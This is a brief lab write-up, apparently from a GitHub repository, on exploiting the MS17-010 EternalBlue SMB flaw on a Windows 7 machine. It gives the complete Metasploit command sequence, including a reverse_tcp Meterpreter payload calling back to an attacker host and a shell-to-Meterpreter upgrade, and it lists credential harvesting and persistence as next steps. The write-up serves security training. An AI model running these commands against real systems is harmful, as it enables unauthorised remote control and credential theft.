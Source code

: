
# EternalBlue MS17-010 Lab Writeup

### Lab Summary
This lab demonstrates exploitation of the MS17-010 SMB vulnerability (EternalBlue) on a Windows 7 system, gaining a remote shell and upgrading it to a Meterpreter session.

---

### Environment
- Target IP: <target-ip>
- Target OS: Windows 7 SP1 (version 6.1.7601)  
- Attacker machine running Metasploit Framework (msf6)

---

### Steps Taken

1. **Start Metasploit**  

   Open terminal and run:

   ```bash
   msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target-ip>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <attacker-ip>
run
sessions
use post/multi/manage/shell_to_meterpreter
set SESSION <session-id>
run

 ### Lessons Learned

- Importance of patching SMB vulnerabilities  
- Using post-exploitation modules to improve session capabilities  
- Basics of Windows privilege escalation paths (next steps after shell)

---

### Next Steps

- Explore privilege escalation  
- Harvest credentials  
- Persistence techniques
